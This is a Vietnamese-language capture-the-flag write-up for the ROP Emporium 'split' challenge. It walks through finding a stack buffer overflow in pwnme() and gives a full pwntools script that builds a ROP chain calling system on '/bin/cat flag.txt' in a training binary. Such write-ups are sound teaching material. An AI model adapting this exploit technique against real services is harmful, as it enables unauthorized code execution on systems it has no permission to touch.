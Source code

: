 # ROP_Emporium - split

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
split: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=98755e64e1d0c1bff48fccae1dca9ee9e3c609e2, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)

```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp theo, ta mở file bằng IDA PRO 64bit. Có thể thấy hàm khai thác là hàm **pwnme()**:

Hàm pwnme()

![pwnme.png](images/pwnme.png)

Còn có hàm usefulFunction()

![usefulFunction.png](images/usefulFunction.png)

Ở hàm pwnme() ta có thể thấy tại dòng thứ 8 cho phép ghi 0x60 ký tự vào biến **s** nhưng biến **s** chỉ được khai báo 0x20 bytes --> **Buffer Overflow**

# 2. Ý tưởng

Có thể thấy ở bài này không có hàm win nên ta không thể sử dụng ret2win, thay vào đó là hàm **system** và có sẵn string "/bin/cat flag.txt"
--> ROP_gadget

# 3. Khai thác

Ta cũng sẽ tìm offset tới rip bằng gdb như sau:

![offset.png](images/offset.png)

Bởi vì địa chỉ của **return address** lớn hơn địa chỉ **biến nhập vào** 0x28 vì vậy ta chỉ việc tạo script để ghi đè saved rip thành ROP_chain khi đã có hàm system và chuỗi "/bin/cat flag.txt":

![string.png](images/string.png)

Full code:
```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./split', checksec=False)

p = process("./split")

#gdb.attach(p, gdbscript='''''')

ret = ROP(elf).find_gadget(["ret"])[0]
pop_rdi_ret = ROP(elf).find_gadget(["pop rdi", "ret"])[0]
system = elf.sym['system']
strings_cat_flag = elf.sym['usefulString']

payload = flat(
    cyclic(0x28),
    ret,
    pop_rdi_ret,
    strings_cat_flag,
    system
    )
p.sendlineafter(b">",payload)
p.interactive()

```
# Lưu ý:

Chúng ta cần thêm ret vào đầu ROP_chain vì:

![ret.png](images/ret.png)

# 4. Lấy flag

![flag.png](images/flag.png)


